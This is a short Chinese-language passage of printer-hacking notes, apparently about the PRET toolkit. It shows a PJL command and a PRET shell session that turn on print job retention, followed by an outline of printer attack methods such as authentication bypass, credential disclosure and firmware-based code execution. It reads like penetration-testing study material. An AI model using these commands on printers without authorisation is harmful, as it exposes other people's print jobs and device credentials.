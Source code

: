```
防火墙，不知名SNMP公共字符串
```

## 打印作业访问

### 保留打印作业

PJL实现

```
@PJL SET HOLD=ON
[actual data to be printed follows]
```

PERF实现

```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```





## 攻击方法总结

1. 拒绝服务
2. 提权
   1. 恢复出厂设置
   2. 认证绕过
3. 打印作业访问
   1. 保留打印作业
   2. 修改打印作业
4. 信息披露
   1. 内存访问
   2. 文件系统访问
   3. 凭据泄露
5. 代码执行
   1. 缓冲区溢出
   2. 固件更新
   3. 安装自定义软件
6. 